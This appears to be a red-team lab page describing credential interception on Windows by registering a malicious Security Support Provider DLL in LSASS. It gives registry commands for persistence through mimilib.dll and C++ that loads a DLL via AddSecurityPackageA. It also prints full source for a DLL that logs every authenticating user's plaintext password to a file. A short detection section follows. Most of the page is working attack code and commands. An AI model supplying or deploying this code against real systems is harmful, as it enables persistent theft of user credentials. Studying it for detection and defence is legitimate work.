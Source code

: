 ```yaml
---
description: Credential Access, Persistence
---
```


# Intercepting Logon Credentials via Custom Security Support Provider and Authentication Packages

This technique abuses Windows Security Support Provider (SSP) and Authentication Packages (AP) that come in the form of DLLs that get injected into LSASS.exe process on system boot or dynamically via `AddSecurityPackage` API.

## Loading SSP with Reboot

In this lab, mimikatz Security Support Provider [mimilib.dll](https://github.com/gentilkiwi/mimikatz) will be registered as a Windows Security Package.&#x20;

Once the Security Package is registered and the system is rebooted, the mimilib.dll will be loaded into lsass.exe process memory and intercept all logon passwords next time someone logs onto the system or otherwise authenticates, say, via `runas.exe`.

Let's now build the [mimilib.dll](https://github.com/gentilkiwi/mimikatz) and copy it to the target machine's system32 folder:

{% code title="attacker@target" %}
```cpp
PS C:\> copy mimilib.dll %systemroot%\system32
```
{% endcode %}

Get a list existing LSA Security Packages:

{% code title="attacker@target" %}
```bash
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```
{% endcode %}

Add mimilib.dll to the Security Support Provider list (Security Packages):

{% code title="attacker@target" %}
```csharp
PS C:\> reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ /f
```
{% endcode %}

The below shows `Security Packages` registry value with the `mimilib` added and the `kiwissp.log` file with a redacted password that had been logged during the user logon (after the system had been rebooted after the Security Package was registered):

![](../../.gitbook/assets/lsa-security-packages.png)

{% hint style="info" %}
Reboot is required for the new SSP to take effect after it's been added to the Security Packages  list.
{% endhint %}

## Loading SSP without Reboot

It's possible to load the SSP DLL without modifying the registry:

![](<../../.gitbook/assets/image (423).png>)

Below code loads the malicious SSP spotless.dll:

```cpp
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#pragma comment(lib, "Secur32.lib")

int main()
{
	SECURITY_PACKAGE_OPTIONS spo = {};
	SECURITY_STATUS ss = AddSecurityPackageA((LPSTR)"c:\\temp\\spotless.dll", &spo);
	return 0;
}
```

Below shows how the new Security Package spotless.dll is loaded by lsass and is effective immediately:

![procmon filter: path contains "spotless"](../../.gitbook/assets/load-ssp.gif)

{% hint style="info" %}
Loading the SSP with this approach does not survive a reboot unlike SSPs that are loaded as registered Security Packages via registry.
{% endhint %}

## Detection

It may be worth monitoring `Security Packages` value in`hklm\system\currentcontrolset\control\lsa\` for changes.&#x20;

Newly added packages should be inspected:

![](../../.gitbook/assets/lsa-commandline.png)

Additionally, mimilib.dll (same applies to custom spotless.dll) can be observed in the list of DLLs loaded by lsass.exe, so as a defender, you may want to make a baseline of loaded known good DLLs of the lsass process and monitor it for any new suspicious DLLs:

![](<../../.gitbook/assets/lsa-loaded-dll (1) (1).png>)

## Code

Below is the code, originally taken from [mimikatz](https://github.com/gentilkiwi/mimikatz), adapted and refactored to suit this lab, that we can compile as our own Security Support Provider DLL. It intercepts authenticatin details and saves them to a file `c:\temp\logged-pw.txt`:

```cpp
#include "stdafx.h"
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#include <iostream>
#pragma comment(lib, "Secur32.lib")

NTSTATUS NTAPI SpInitialize(ULONG_PTR PackageId, PSECPKG_PARAMETERS Parameters, PLSA_SECPKG_FUNCTION_TABLE FunctionTable) { return 0; }
NTSTATUS NTAPI SpShutDown(void) { return 0; }

NTSTATUS NTAPI SpGetInfo(PSecPkgInfoW PackageInfo)
{
	PackageInfo->Name = (SEC_WCHAR *)L"SSSPotless";
	PackageInfo->Comment = (SEC_WCHAR *)L"SSSPotless <o>";
	PackageInfo->fCapabilities = SECPKG_FLAG_ACCEPT_WIN32_NAME | SECPKG_FLAG_CONNECTION;
	PackageInfo->wRPCID = SECPKG_ID_NONE;
	PackageInfo->cbMaxToken = 0;
	PackageInfo->wVersion = 1;
	return 0;
}

NTSTATUS NTAPI SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
	HANDLE outFile = CreateFile(L"c:\\temp\\logged-pw.txt", FILE_GENERIC_WRITE, 0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	DWORD bytesWritten = 0;
	
	std::wstring log = L"";
	std::wstring account = AccountName->Buffer;
	std::wstring domain = PrimaryCredentials->DomainName.Buffer;
	std::wstring password = PrimaryCredentials->Password.Buffer;

	log.append(account).append(L"@").append(domain).append(L":").append(password).append(L"\n");
	WriteFile(outFile, log.c_str(), log.length() * 2, &bytesWritten, NULL);
	CloseHandle(outFile);
	return 0;
}

SECPKG_FUNCTION_TABLE SecurityPackageFunctionTable[] = 
{
	{
		NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,	SpInitialize, SpShutDown, SpGetInfo, SpAcceptCredentials, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL 
	}
};

// SpLsaModeInitialize is called by LSA for each registered Security Package
extern "C" __declspec(dllexport) NTSTATUS NTAPI SpLsaModeInitialize(ULONG LsaVersion, PULONG PackageVersion, PSECPKG_FUNCTION_TABLE *ppTables, PULONG pcTables)
{
	*PackageVersion = SECPKG_INTERFACE_VERSION;
	*ppTables = SecurityPackageFunctionTable;
	*pcTables = 1;
	return 0;
}
```

## References

{% embed url="https://github.com/gentilkiwi/mimikatz" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/secauthn/lsa-mode-initialization" %}

{% embed url="https://github.com/veramine/Detections/wiki/LSA-Packages" %}

{% embed url="https://adsecurity.org/?p=1760" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1131" %}

{% embed url="https://blog.xpnsec.com/exploring-mimikatz-part-2/" %}
